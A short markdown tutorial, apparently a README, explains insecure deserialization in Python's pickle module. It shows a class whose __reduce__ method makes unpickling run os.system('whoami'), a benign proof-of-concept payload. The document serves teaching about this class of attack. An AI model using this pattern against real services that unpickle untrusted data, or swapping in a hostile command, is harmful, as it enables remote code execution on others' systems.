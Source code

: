 # Pickle Deserialization RCE
## This is how this script simulates a possible Insecure Deserilization attack.

Firstly, pickle is a python module for serializing and deserializing Python objects. Secondly, base64 is used to encode hex in base64 because why not.

```
import pickle
import base64
```

This next piece of code defines a Class with the special method __reduce__(). __reduce__() is used by pickle to determine how an object should be serialized. It's a tuple where the first item is a function and the second is a tuple of arguments.

So this code unpickled will run os.system('whoami')

```
class VeryCoolClass:
    def __reduce__(self):
        import os
        return (
            os.system, ('whoami',)
        )
```

Afterwards, the class is serialized and then deserialized. When the object is deserialized, the __reduce__() function is triggered running arbitrary code.
